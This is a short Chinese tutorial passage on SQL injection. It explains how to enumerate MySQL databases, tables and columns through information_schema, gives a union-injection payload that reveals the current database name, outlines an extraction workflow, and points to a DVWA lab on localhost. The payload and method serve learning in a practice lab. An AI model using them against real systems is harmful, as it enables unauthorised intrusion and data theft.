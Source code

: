 **information_schema** 这个数据库中会存在几张表：

- SCHEMATA：储存数据库名

  - SCHEMA_NAME：存储数据名的字段

  ```sql
  select schema_name from information_schema.schemata;
  ```

- TABLES：这里记录了所有数据库中国所有的表名

  - tables_schema：记录了这张表对应的数据库名
  - tables_name：记录表名的字段

  ```sql
  -- 显示所有表名以及对应的数据库。
  select table_schema, table_name from information_schema.tables;
  ```

- COLUMNS：这里记录了所有的数据中所有表的列名

  - table_schema：数据库名字段
  - table_name：表明字段
  - colum_name：列名字段

  ```sql
  -- 显示所有表名以及对应的数据库。
  select table_schema, table_name,column_name from information_schema.columns;
  ```

在查询表的时候，可以用where 除去系统自带的几张表：

```sql
where table_schema!='information_schema' and table_schema!='sys' and table_schema!='performance_schema' and table_schema!='mysql';
```

知道这个了，我们还需要知道，**如何获取当前数据库的名字？**

```sql
'union select database(); #
```

通过union 注入获取当前的数据库名字.

通过这个数据库，**可以获取当前数据库中的任意数据**。

那么当前服务器会存在多个数据库，如何跨库访问?，这样就可以实现利用旁站攻击的思路。这个放到后面来说

##### 流程总结

- 寻找注入点
- 查询当前数据库名字。
- 利用information_schema 数据库，了解到要查询数据的表以及字段。
- 利用union进行查询。



##### 案例一

[默认80端口的dvwa中low等级的sql注入实验](http://localhost/dvwa/vulnerabilities/sqli/)
